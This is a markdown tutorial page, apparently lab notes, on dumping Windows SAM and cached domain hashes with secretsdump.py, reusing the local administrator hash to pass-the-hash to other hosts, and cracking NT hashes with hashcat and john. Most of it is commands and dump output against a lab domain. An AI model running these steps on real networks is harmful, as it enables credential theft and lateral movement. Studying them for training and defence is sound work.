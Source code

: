 ## **Dumping Hashes with Secretsdump.py**


## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , 2008 R2 servers, This is used to store passwords in clear text 



### **Dumping Individual hashes with local admin hash**

sometimes we might not be able to dump hashes by just specifying the user like we did in the first step, we where able to dump `MARVEL.local/fcastle` hash but we where not able to dump `MARVEL.local/pparkers` hash, If we can dump a user hash, we can copy the local admin hash and try it out with other users to see if they share the same admin hash, then we can get a user hash from there

```powershell
# Dumping peterparker hash with local admin hash
$ secretsdump.py administrator:@192.168.0.132 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/4nSVJeN.jpg)


```powershell
# dumping peterparker hash with the local admin hash we got from fcastle
$ secretsdump.py administrator:@192.168.0.183 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/MKOGwFO.jpg)


**Note :** The only thing that changes here is the IP address of each user, every command option stays the same




## **Cracking Hashes**


We can take the `NT` potion (second potion) of each user hash we want to crack and then crack it.

```powershell
# paste hash into a txt file
$ echo "7facdc498ed1680c4fd1448319a8c04f" > hash.txt

# cracking hash with hashcat
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

# cracking hash with john
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
```


**_Hashcat Output :_**

![](https://i.imgur.com/9x7QMIq.png)


**_John output :_**

![](https://i.imgur.com/3wGVyzJ.png)
